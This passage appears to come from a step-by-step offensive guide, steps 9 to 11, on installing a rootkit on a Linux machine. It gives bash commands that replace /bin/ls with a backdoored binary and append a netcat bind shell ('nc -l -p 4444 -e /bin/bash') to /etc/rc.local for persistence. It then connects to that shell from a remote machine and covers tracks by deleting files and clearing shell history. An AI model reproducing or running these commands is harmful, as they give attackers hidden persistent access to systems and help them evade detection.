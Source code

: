 **Step 9: Install the Rootkit Components**

```bash
# This step involves copying rootkit components to system directories and configuring them to start automatically.
# This example demonstrates installing a basic rootkit that replaces 'ls' with a modified version.

# Replace /bin/ls with a backdoored version.
mv /bin/ls /bin/ls.orig
cp /tmp/rootkit/ls /bin/ls
chmod +x /bin/ls

# Configure a persistence mechanism (e.g., adding a script to /etc/init.d or /etc/rc.local).
# This example adds a simple script to /etc/rc.local.
echo "nc -l -p 4444 -e /bin/bash &" >> /etc/rc.local
chmod +x /etc/rc.local

# Start the backdoor listener

/etc/rc.local

# Expected Output: (For example, if ls is backdoored):  When running the ls command it may not show certain files.
# When a connection is made to port 4444, the attacker should receive a shell.

# Explanation: This step installs the rootkit by replacing system binaries and configuring persistence.
# The specific commands will vary depending on the rootkit's design and the target system.
# Ensure that the new `ls` binary is compiled for the correct architecture.
```

**Step 10: Test the Rootkit**

```bash
# Test the installed rootkit.

# Example: Execute the backdoored 'ls' command.
ls

# Connect to the backdoor listener (from a remote machine).
nc <node_ip> 4444

# Expected Output:  The backdoored `ls` command may hide certain files. The `nc` command should provide a shell on the compromised node.

# Explanation:  This confirms that the rootkit is installed and functioning correctly.
```

**Step 11: Cleanup**

```bash
# Remove any temporary files or traces of the installation.
rm -rf /tmp/rootkit.tar.gz /tmp/rootkit /etc/rc.local # remove rc.local if this was not originally present.

# Clear bash history
history -c
```
